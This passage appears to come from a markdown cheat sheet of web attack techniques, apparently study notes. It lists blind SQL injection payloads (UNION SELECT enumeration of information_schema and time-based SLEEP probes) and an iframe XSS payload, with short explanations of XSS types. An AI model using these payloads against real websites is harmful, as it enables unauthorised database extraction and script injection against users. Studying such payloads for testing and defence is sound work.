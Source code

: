 ```
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
WHERE TABLE_SCHEMA='[[DATABASE_NAME]]' and TABLE_NAME='[[TABLE_NAME]]' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id'	
```
Again you'll need to cycle through letters, numbers and characters until you find a match. 
>As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name,

```
' UNION SELECT 1,2,3 from [[TABLE_NAME]] where [[COLUMN_NAME]] like 'a%
```
cycles through valid column name entries
```
' UNION SELECT 1,2,3 from [[TABLE_NAME]] where [[COLUMN_NAME]]='[[VALID_ENTRY]]' and [[OTHER_COLUMN_NAME]] like 'a%
```
cycles through row entry data

### Time Based Return

```
' UNION SELECT SLEEP(5);--
```
Same as Boolean Return except when the SLEEP(5) function is hit - the return is equal to TRUE
```
' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```
will sleep if the database name starts with the letter "u"

## XSS
 
```HTML
	<iframe src="javascript:alert(`xss`)"> 
```
	

## DOM XSS 
uses the HTML environment to execute malicious javascript. 
This type of attack commonly uses the script \script HTML tag

## Persistent (Server-side) XSS
javascript that is run when the server loads the page containing it.
>These can occur when the server does not sanitise the user data when it is uploaded to a page. 

>These are commonly found on blog posts. 

## Reflected (Client-side) XSS
javascript that is run on the client-side end of the web application. 
>These are most commonly found when the server doesn't sanitise search data. 

# BruteForce
